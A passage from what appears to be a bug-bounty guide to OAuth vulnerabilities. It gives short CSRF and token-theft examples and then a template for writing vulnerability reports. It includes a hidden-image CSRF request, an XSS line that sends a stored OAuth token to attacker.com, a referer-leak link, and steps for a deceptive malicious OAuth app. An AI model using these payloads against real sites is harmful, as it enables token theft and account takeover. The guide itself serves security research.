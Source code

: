 2. **Account Linking CSRF**
   ```html
   <img src="https://app.com/link-account?provider=google" style="display:none">
   ```

### Token Theft

1. **XSS to Steal Tokens**
   ```javascript
   fetch('https://attacker.com/steal?token=' + localStorage.getItem('oauth_token'));
   ```

2. **Referer Header Leakage**
   ```html
   <a href="https://attacker.com">Click here</a>
   ```
   (Placed on a page that has the token in the URL)

3. **Malicious OAuth Application**
   - Register a malicious OAuth application with a deceptive name
   - Trick users into authorizing it
   - Use the granted tokens to access user data

## Reporting Guidelines

### Report Structure

1. **Title**: Clear, concise description of the vulnerability
   - Example: "OAuth 2.0 Account Takeover via Redirect URI Validation Bypass"

2. **Severity**: Assess impact using CVSS or the program's severity guidelines
   - Consider factors like:
     - Does it lead to account takeover?
     - How much user interaction is required?
     - What is the potential scope of the attack?

3. **Description**: Brief overview of the vulnerability
   - What OAuth component is vulnerable
   - How it deviates from secure implementation
   - Reference relevant OAuth specifications or best practices

4. **Steps to Reproduce**: Detailed, step-by-step instructions
   - Include all request/response details
   - Provide clear parameters and values
   - Include screenshots where helpful

5. **Proof of Concept**: Working demonstration
   - HTML files for CSRF attacks
   - Scripts for token theft
   - Video demonstration for complex exploits

6. **Impact**: Detailed explanation of the security implications
   - What an attacker could access or do
   - How many users could be affected
   - Potential business impact
